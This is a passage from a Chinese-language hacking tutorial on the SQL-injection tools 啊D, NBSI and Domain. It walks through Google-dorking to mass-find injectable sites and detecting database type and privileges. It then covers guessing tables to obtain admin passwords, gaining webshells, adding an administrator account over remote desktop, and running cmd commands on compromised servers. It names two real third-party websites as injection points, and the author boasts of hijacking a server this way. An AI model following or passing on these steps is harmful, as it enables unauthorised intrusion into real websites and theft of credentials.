

利用Google还可以扫描指定国家的注入点，比如我们要寻找日本网站的注入点，就在区域后面的国家列表中选择日本；还可以指定在某种语言的网页中寻找注入点，比如我们只想在韩语网页中寻找注入点，就在语言列表中选择韩文。下面来实际搜索一下注入点，把每页显示的搜索结果由10项改为100项，其它保持默认，“包含全部字词”后面输入搜索关键字“inurl:news-detail.asp”，然后按“Google搜索”就会显示URL中包含news-detail.asp的前100项搜索结果。此时啊D就会自动在这100项搜索结果的链接中寻找注入点，如果发现注入点就会以红色字体显示在“可用注入点”中。我们耐心等待一会儿，结果就出来了，找到了10个注入点，如图5。点搜索结果中的“下一页”还可以找到更多的注入点。

在找到的一个注入点上双击鼠标，就会打开“SQL注入检测页面”，注入点已经自动出现在“注入连接”后面的地址框中了，直接点后面的“检测”按钮就可以对这个注入点进行详细检测。通过检测可以得知这个网站采用的是什么数据库系统（啊D只能识别Access和MSSQL两种数据库），如果是MSSQL数据库的话还可以知道注入点的权限是什么。检测结果为“数据库类型为：Access数据库”，如图6。









对于使用Access数据库的网站，唯一的利用方法就是通过猜表名、猜字段来获得管理员的用户名和密码，然后登录后台尝试获取webshell；而如果连表都猜不出来，那就只能放弃它了。如果检测结果是网站使用MSSQL数据库，并且权限是DBO或SA，那么利用空间就大得多。如果是SA权限的注入点，那就几乎等于拿下了服务器（因为默认情况下，SA权限就等同于Windows下的管理员权限）。如果服务器还开了3389服务，又可以从外部连接，通过注入工具建立一个管理员账户登录上去，一台服务器肉鸡就会轻松到手了，我的第一台服务器肉鸡就是这样抓到的。

而如果是DBO权限，除了可以猜表、猜字段外，还可以列目录。如果找到网站的物理路径，就可以通过备份得到webshell。要查看目录，可以先打开啊D左侧的“相关工具”，再点击“目录查看”打开列目录的地方，在“检测位置”后面的目录下拉列表中选择一个目录，这里我选择的是c:\，然后点击“开始检测”按钮，就会列出C盘根目录下的所有文件和目录了，如图7。如果想查看已经列出来的目录下又有哪些目录和文件，则直接双击这个目录就行了，比如我要查看Program Files目录下都有哪些文件，就可以直接双击Program Files目录名。当然了，啊D还有执行cmd命令、上传、读取注册表等功能，这里就不一一介绍了。



### 二、执行cmd命令的王者——NBSI

如果说啊D是批量寻找注入点方面最好的注入工具，那么NBSI就是在执行cmd命令方面最好的注入工具了。尽管其它的注入工具也都有执行cmd命令的功能，但功能却没有NBSI强大。有些注入点在别的注入工具中不能执行cmd命令，但在NBSI中就可以执行；或者是在别的注入工具中执行cmd命令后回显不完整或错误（比如啊D），但在NBSI中就能看到完整的命令回显。先来看看NBSI长什么模样吧，我使用的是NB-SI3.0 Hack520增强版，软件运行后的界面如图8所示。

要想打开NBSI执行cmd命令的地方有两种方法：一种是通过“扫描及工具”下的“Commander命令执行器”，另一种就是直接点击软件最下方的“Commander”按钮。打开后的界面如图9所示。NBSI提供了三种执行命令的方法，分别是Cmdshell、OACreate和JOB，最常用的是前面两种。

想要执行命令，注入点首先要是SA（systemadmin）权限，其次还要支持“多行执行”。我使用啊D找到了一个注入点 http://www.uds.it/view_recensione.asp?id_recensione=381，满足以上执行命令的条件。如图10，使用啊D的命令执行功能执行“dir c:\”后的回显结果如图11，显示的好像是一个网页的源代码。我们再把注入点填到NBSI执行命令的“注入地址”栏中，执行的命令还是“Dir C:\”，命令类型保持默认的Cmdshell，然后点“执行”按钮，命令执行后的结果如图12所示。有时候使用Cmdshell方法可能无法执行命令，此时我们把执行命令类型换成OACreate或JOB很可能就行了。











### 三、猜解的好帮手——Domain

上面我已经提到过，如果注入点的检测结果为Access数据库，就只能猜表。猜表我一般使用Domain，这是明小子编写的一款注入工具，它猜表的速度很快，精度也高，一般不会出现明明存在某个表却检测不出来的情况。这里我以Domain3.5正式版为例来给大家介绍。

软件打开后默认显示的是“旁注检测”页面，如图13。要进行猜表，需要选择第三个“SQL注入”，并切换到“SQL注入猜解检测”功能模块，如图14。

前面我使用啊D已经找到了一个数据库类型为Access的注入点“http://www.zjvtedu.cn/main/show_news.asp?show_id=1271”，把注入点填到上图中的注入点地址栏中，然后点“开始检测”按钮进行检测，检测结果为“恭喜，该URL可以注入！数据库类型：Access数据库”，如图15。

接下来就可以进行猜解了，点击“猜解表名”后就开始检测网站数据库中是否存在Domain收集的常用表。如果存在，就会在数据库下方的空白框中显示出来。如果Domain收集的常用表中没有某个表，我们还可以通过“添加”按钮把这个表添加进来，然后再猜解里面的列名。同样的，我们也可以添加列名来猜解里面的内容。



图13

